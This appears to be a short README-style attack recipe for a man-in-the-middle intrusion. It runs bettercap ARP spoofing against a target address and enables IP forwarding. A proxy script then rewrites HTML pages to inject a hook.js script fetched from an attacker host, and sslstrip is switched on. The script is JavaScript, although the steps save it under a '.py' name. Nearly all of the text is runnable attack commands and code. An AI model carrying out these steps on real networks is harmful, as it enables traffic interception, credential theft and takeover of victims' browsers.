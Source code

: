 Perform ARP spoofing attack:

	- sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'

	- sudo bettercap
	- set arp.spoof.targets 10.0.2.4
	- set arp.spoof.fullduplex true
	- arp.spoof on

Create a script:

	- nano myscript.py

	function onResponse(req, res) {
	    if( res.ContentType.indexOf('text/html') == 0 ){
	        var body = res.ReadBody();
	        if( body.indexOf('</head>') != -1 ) {
	            res.Body = body.replace( 
	                '</head>', 
	                '<script type="text/javascript" src="http://hackbox:3000/hook.js"></script></head>' 
	            );
	        }
	    }
	}

Inject the script on the proxy:

	- set http.proxy.script /home/user/Desktop/myscript.py
	- set http.proxy.sslstrip true
http.proxy on